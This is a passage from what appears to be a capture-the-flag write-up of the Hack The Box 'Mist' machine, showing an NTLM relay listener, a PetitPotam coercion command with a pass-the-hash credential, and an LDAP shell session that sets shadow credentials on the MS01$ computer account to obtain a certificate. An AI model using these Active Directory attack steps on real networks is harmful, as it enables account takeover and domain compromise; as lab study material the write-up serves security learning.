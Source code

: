 ```bash
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```
```bash
proxychains petitpotam.py -u "Brandon.Keywarp" -d mist.htb -hashes :DB[...]C9 "ms01@8082/test" 192.168.100.101 -pipe all
```

![alt text](<../assets/image_mist/5er MS01 success auth.png>)

Ok nice !!, let's set shadowcreds :

```bash
nc localhost 11000

# clear_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

Shadow credentials cleared successfully!

# set_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

KeyCredential generated with DeviceID: 7b4da94a-4fe4-33d3-8e6c-8403fa0e9b75
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: XMfyKUjR.pfx
Must be used with password: imuwG9FhuUcgSL5gxaPD
```
Now use the .pfx to have the hash of MS01$
